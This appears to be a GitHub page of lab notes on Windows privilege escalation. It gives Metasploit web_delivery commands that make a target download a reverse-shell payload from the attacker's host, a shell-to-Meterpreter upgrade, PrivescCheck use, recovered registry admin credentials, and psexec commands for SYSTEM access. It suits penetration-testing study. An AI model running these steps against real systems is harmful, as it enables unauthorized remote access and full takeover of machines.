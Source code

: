 # Windows: Identifying Privilege Escalation Vulnerabilities
> The assumption here is that you have gained access to a Windows system, but you do not have elevated privileges (you do not have NT AUTHORITY or SYSTEM). You have gained access as a normal user or via a service account.

## Contents
- [Intro](#intro)
  - [Identifying PrivEsc Vulnerabilities](#identifying-privesc-vulnerabilities)
  - [Script: PrivescCheck](#script-privesccheck)
- [Techniques & Tools](#techniques--tools)
  - [MetaSploit Module: web_delivery](#metasploit-module-web_delivery)
  - [Migrate to Meterpreter](#migrate-to-meterpreter)
  - [Execute PrivescCheck](#execute-privesccheck)

## Intro

### Identifying PrivEsc Vulnerabilities
- In order to elevate your privileges in Windows, you must first identify privilege escalation vulnerabilities on the target system.
- This process will differ greatly based on the type of target you gain access to.
  - Privilege escalation on Windows can be performed through a plethora of techniques based on the version of Windows and the system's unique configuration.
- This process can be quite tedious and time consuming.
  - As a result it is recommended to automate this process of identifying privilege escalation vulnerabilities.
  - This can be done through the use of various automation scripts. One of the best is PrivescCheck...

### Script: PrivescCheck
- [PrivescCheck](https://github.com/itm4n/PrivescCheck): this script aims to enumerate common Windows configuration issues that can be leveraged for local privilege esclation.
  - It also gathers various information that might be useful for exploitation and/or post-exploitation.
- It also gathers various information that might be useful for exploitation and/or post-exploitation.
  - Description: This script aims to identify Local Privilege Escalation (LPE) vulnerabilities that are usually due to Windows configuration issues, or bad practices. It can also gather useful information for some exploitation and post-exploitation tasks.

## Techniques & Tools
> The following is from a lab. It should give you the general contect and process of using the technique with the tools.

### MetaSploit Module: [web_delivery](https://www.offsec.com/metasploit-unleashed/web-delivery/)
> This is a module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine.
>
> This module spins up a web server that hosts a payload (based on the target operating system). When you hit run/exploit, it generates some PowerShell code. You copy that PowerShell code and execute it on the target machine. When you run that code on the target, it will download the payload and execute the exploit.
```
> use exploit/multi/script/web_delivery
> show info  # To see what it does
> set target PSH\ (Binary)
> set payload windows/shell/reverse_tcp
> set PSH-EncodedCommand false  # we do not want the ps script encoded
> set LHOST [attack ip or eth#]
> exploit
```
- Copy all the code it spits out.
  - Go to the target system and open a command prompt session (cmd.exe)
  - Right-click in the cmd window and that will paste in your script.
  - Hit ENTER
- Back into your Kali attack machine. You should have a command shell.
- We have access via the user "student."
  - Confirm that with `whoami`
  - Verify the hostname with `hostname`

### Migrate to Meterpreter
- Migrate your command shell you just obtained to a meterpreter session.
```
ctrl + z   # to background the session; still in msfconsole...
> search shell_to
> use post/multi/manage/shell_to_meterpreter
> set LHOST [attack ip]
> set SESSION [meterpreter session #]
> show advanced
  # We need to change the WIN_TRANSFER option
  # Instead of the transfer method being PowerShell, we want VisualBasic (VBS)
> set WIN_TRANSFER VBS
> run/exploit
```
- Go into your meterpreter session. Migrate to a 64-bit process (explorer.exe)
- cd over to the PrivescCheck subdir...
- Open a command shell session in this subdir: `> shell`

### Execute PrivescCheck
- Head over to the [PrivescCheck GitHub repo](https://github.com/itm4n/PrivescCheck) and read how to use it. Copy it.
- You want to copy that entire script and paste it into the shell prompt you just got from meterpreter.
- ENTER to execute it.
- Once it is finished, it will give you a summary at the bottom.
  - Scroll back up to the top and analyze the results...
  - You get a list of the groups on the system
  - As you work through the list, under each is an indicator if there is a vulnerability or not...

### Results
> Continuing with the lab above. PrivescCheck spits out test results; some will be "Not vulnerable" but others may shows positive results.

#### Example: Not Vulnerable
![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/c5966326-8dbe-4afc-934a-7a4ad21dc4c6)

#### Example: Vulnerable
![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/50628214-9c29-4728-b04c-545d5984bdae)

#### The WinLogon Feature
- This is a feature in Windows that allows you to automatically log on
- The creds for the automatic logon are typically stored in the Registry
- You should always encrypt these credentials stored in the Registry
- In our case, this was not done. Therefore, we have authentication credentials:
  - Username: administrator
  - Password: hello_123321
 
**_How can we use these admin creds to upgrade our user-level account access? _**

### Exploits

#### PSExec (SMB)
- Every version of Windows will have SMB running.
  - That means the system has the ability to authenticate users via SMB
  - PSExec authenticates on a system via SMB
- Use the Python implementation of the PSExec utility to login to the target system and obtain an elevated session.
  - On your Kali attack machine, get a new term window (tmux, new tab, whatever).
  - Command:`psexec.py  [username]@[target ip]`
  - You'll be prompted to enter the password
- That should get you a command shell session with admin rights (b/c you logged in as the administrator)
  - `whoami` : you should have nt authority/system
  - `net user` : list out all the users on the system
  - `whoami /priv` : you should see all the privs associated with admin

#### Metasploit Module: psexec 
- In the MSF: terminate your channel... background your meterpreter...
```
> search psexec
> use /exploit/windows/smb/psexec
  # Descr:  Microsoft Windows Authenticated User Code Execution
  # In order to use this module you need credentials
> set LPORT [####]
  # You may need to choose a new LPORT to avoid conflicts with the two existing sessions.
> set... RHOSTS... SMBUser... SMBPass...
> exploit
```
- You should get an elevated meterpreter session. Confirm with `sysinfo` and `getuid`
